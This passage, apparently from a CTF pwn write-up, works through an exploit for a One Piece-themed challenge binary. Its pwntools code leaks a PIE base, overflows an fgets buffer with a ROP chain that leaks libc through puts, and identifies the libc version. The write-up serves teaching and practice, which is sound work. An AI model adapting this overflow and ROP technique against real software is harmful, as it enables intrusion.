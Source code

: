 ```python
p.recvuntil('(menu)>>')
p.sendline('read')
p.recvuntil('>>')
p.send('y' * 0x27 + 'z')
p.recvuntil('>>')
p.sendline('gomugomunomi')
p.recvuntil('Luffy is amazing, right ? : ')
_ = p.recvline().strip()
mugiwara = (int(_,16) & (2**64 - 0x1000)) + binary.sym.mugiwara
log.info('mugiwara: ' + hex(mugiwara))
binary.address = mugiwara - binary.sym.mugiwara
log.info('binary.address: ' + hex(binary.address))
```

From the menu, `read` is used to fill the buffer with `0x27` `y`s and one `z`.  This will trigger the vulnerability and permit an `fgets` BOF when the secret word `gomugomunomi` (see `choice` decompilation) is entered from the menu.  A `mugiwara` address is also leaked; pick this up to compute the base process address.

### First Pass: BOF `fgets` to leak libc and ret to `choice`

```python
p.recvuntil('Wanna tell Luffy something ? : \n')

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
log.info('pop_rdi: ' + hex(pop_rdi))

payload  = 0x38 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.choice)

p.sendline(payload)

_ = p.recv(6)
puts = u64(_ + b'\x00\x00')
log.info('puts: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))
```

This is standard fare CTF GOT provided leakage.  IANS, having `puts` _put_ itself out there and _ret2choice_.

At this point however we still do not know the version of libc, we'll have to run this remotely and harvest the last 3 nibbles of the `puts` address to use the [libc-database](https://github.com/niklasb/libc-database) (example [here](https://github.com/datajerk/ctf-write-ups/blob/master/fwordctf2020/welcome_pwner/README.md#decompile-with-ghidra)).

After identifying `libc6_2.30-0ubuntu2.2_amd64` as the libc version, we can put that into the second block in the setup and switch to that for the rest of the exploit development.
